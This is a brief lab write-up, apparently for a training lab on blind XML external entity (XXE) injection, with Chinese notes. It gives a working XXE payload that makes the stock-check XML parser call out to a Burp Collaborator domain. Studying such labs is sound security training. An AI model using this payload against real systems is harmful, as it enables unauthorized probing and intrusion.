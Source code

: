 # Lab: Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

## XXE
* 一樣在 stock 那邊，題目說要用 blind XXE，用 Collaborator client 拿到 DNS 以及 HTTP 記錄
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ENTITY xxe SYSTEM "http://929gi64r1zhpf4qwmgv0h7r8zz5qtf.burpcollaborator.net">
]>
<stockCheck>
<productId>&xxe;</productId><storeId>&xxe;</storeId></stockCheck>
```